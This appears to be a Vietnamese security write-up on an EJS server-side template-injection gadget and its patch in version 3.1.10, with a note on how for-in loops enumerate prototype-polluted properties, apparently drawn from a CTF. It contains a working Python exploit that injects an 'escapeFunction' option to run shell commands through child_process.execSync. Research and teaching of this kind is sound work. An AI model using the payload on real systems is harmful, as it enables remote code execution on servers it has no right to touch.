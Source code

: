 ```js 
```
ex.py : 
```js 
import  requests
url = "http://localhost:3000"
escapeFunction = "JSON.stringify; console.log(1337);let cp = process.mainModule.require('child_process');console.log(cp.execSync('id').toString());"
data  = { 
    "settings" : {
        "view options" : {
         "client" : '123' ,
        "escapeFunction" : escapeFunction       
        }
    }
}
res = requests.post(url+'/pollute_me' ,json=data)
print(res.text)
requests.get(url)

```
- **Lưu ý**:  gadget trên chỉ hoạt động khi kiểm soát được property trực tiếp của data chứ không phải proottype pollution vì khi parse **renderOptions** , nó chỉ copy các own property thui chứ không dùng luôn cả objects đấy.
```js 
var renderOptions = { ...this.locals, ...opts._locals, ...opts };
```

# How it get patched

- Vì root cause ở đây là do hàm generate Template function nhận opts mà không kiểm tra kĩ nên patch đơn giản nhưu sau  : 
https://github.com/mde/ejs/compare/v3.1.9%2e%2e%2ev3.1.10
![image](https://hackmd.io/_uploads/BJ7m3GkOee.png)

Nó sẽ kiểm tra các biến có phải là property trực tiếp hay không sau đó trả copy vào một Null Object và returns về . Không biết có bypass đc ko :v 
Nhìn chung nếu ta có thể kiểm soát biến data (not prototype pollution) thì rce vẫn posssible .

# Một vài điểm thú vị về for in : 
Xét ví dụ sau : 

```js 
scripts = {
    "pace": "https://cdn.jsdelivr.net/npm/pace-js@latest/pace.min.js",
    "main": "/main.js",
}

Object.prototype.polluted = "WTF"
console.log("Just log it out : ", scripts)

for (let script in scripts) {
    console.log("[" + script + "] => " + scripts[script])
}
```
Kết quả sẽ có chứa polluted không ? Câu trả lời là có   : 
![image](https://hackmd.io/_uploads/H1jr8KJ_gl.png)
Đọc tí document về tính chất của for in ta có thể thấy rằng https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Enumerability_and_ownership_of_properties 
![image](https://hackmd.io/_uploads/ry2vUFJuxl.png)
Nó sẽ chấp nhận luôn cả những enumerable là inherited từ Object prototype ! Bài này mình thấy ở malta ctf khá hay  (mặc dù mình k giải ra:( )

